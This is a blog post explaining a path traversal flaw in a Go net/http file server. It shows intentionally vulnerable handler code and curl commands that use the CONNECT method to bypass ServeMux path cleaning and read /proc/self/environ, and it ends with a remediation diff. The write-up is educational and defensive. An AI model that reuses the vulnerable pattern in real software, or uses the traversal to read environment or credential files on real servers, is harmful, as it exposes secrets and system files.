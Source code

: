 ```yaml
---
layout: post
title: ServeMux and a path traversal vulnerability
categories: exploitation, websecurity, go
tags: [go, websecurity, pathtraversal, exploitation]
last_modified_at: 2020-04-14 9:50 +0000
comments: true
---
```


I really love Go language and write almost everything I do in it and it's a
topic for other blog posts itself. Here we'll talk about pretty common path
traversal vulnerability exploitation.

**TL;DR** Too many people think that `ServeMux` always sanitizes a URL request
path when it's not. Well at least not *always*.

# Issue

Consider the following snippet:
```go
package main

import (
	"io/ioutil"
	"log"
	"net/http"
	"path/filepath"
	"strings"
)

const root = "/tmp"

func main() {
	mux := http.NewServeMux()
	mux.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		filename := filepath.Join(root, strings.Trim(r.URL.Path, "/"))
		contents, err := ioutil.ReadFile(filename)
		if err != nil {
			w.WriteHeader(http.StatusNotFound)
			return
		}
		w.Write(contents)
	})

	server := &http.Server{
		Addr:    "127.0.0.1:50000",
		Handler: mux,
	}

	log.Fatal(server.ListenAndServe())
}
```


Seems like a basic path traversal for someone who do not write Go and write Go a lot :)

Let's create a file in `/tmp` folder to ensure everything works as expected:
```sh
echo content > /tmp/somefile
curl -v 127.0.0.1:50000/somefile
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 50000 (#0)
> GET /somefile HTTP/1.1
> Host: 127.0.0.1:50000
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Wed, 18 Jul 2018 18:08:46 GMT
< Content-Length: 8
< Content-Type: text/plain; charset=utf-8
< 
content
* Connection #0 to host 127.0.0.1 left intact
```


Seems okay, time to exploit it:
```sh
curl -v --path-as-is 127.0.0.1:50000/somefile/../../etc/hostname
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 50000 (#0)
> GET /something/../../../etc/hostname HTTP/1.1
> Host: 127.0.0.1:50000
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 301 Moved Permanently
< Content-Type: text/html; charset=utf-8
< Location: /etc/hostname
< Date: Wed, 18 Jul 2018 18:07:35 GMT
< Content-Length: 48
< 
<a href="/etc/hostname">Moved Permanently</a>.

* Connection #0 to host 127.0.0.1 left intact
```


Turns out that a `ServeMux` canonicalize the requested path so it's not *super easy* exploitable, but it still is.

Here goes the `CONNECT` method:
```sh
curl -v -X CONNECT --path-as-is 127.0.0.1:50000/../../proc/self/environ
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 50000 (#0)
> CONNECT /../../proc/self/environ HTTP/1.1
> Host: 127.0.0.1:50000
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Wed, 18 Jul 2018 18:17:55 GMT
< Content-Type: application/octet-stream
< Transfer-Encoding: chunked
< 
...
```

Bingo.


I should note that this is an expected behaviour and
[clearly documented](https://golang.org/pkg/net/http/#ServeMux.Handler)
in `net/http` package docs:
> The path and host are used unchanged for CONNECT requests.

# Remediation

Use `filepath.FromSlash` accompanied with `path.Clean` and a [preceding forward slash](https://twitter.com/raphsutti/status/1248871606291542016/photo/1):
```diff
diff --git a/main.go b/main.go
index d50e6f3..91e5015 100644
--- a/main.go
+++ b/main.go
@@ -4,6 +4,7 @@ import (
        "io/ioutil"
        "log"
        "net/http"
+       "path"
        "path/filepath"
        "strings"
 )
@@ -13,7 +14,7 @@ const root = "/tmp"
 func main() {
        mux := http.NewServeMux()
        mux.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
-               filename := filepath.Join(root, strings.Trim(r.URL.Path, "/"))
+               filename := filepath.Join(root, filepath.FromSlash(path.Clean("/"+strings.Trim(r.URL.Path, "/"))))
                contents, err := ioutil.ReadFile(filename)
                if err != nil {
                        w.WriteHeader(http.StatusNotFound)
```


Also, it's a good practice to limit acceptable request methods.

If you're not able to fix the code - put a vulnerable service behind a reverse proxy like nginx, that does not allow `CONNECT` method request by default.
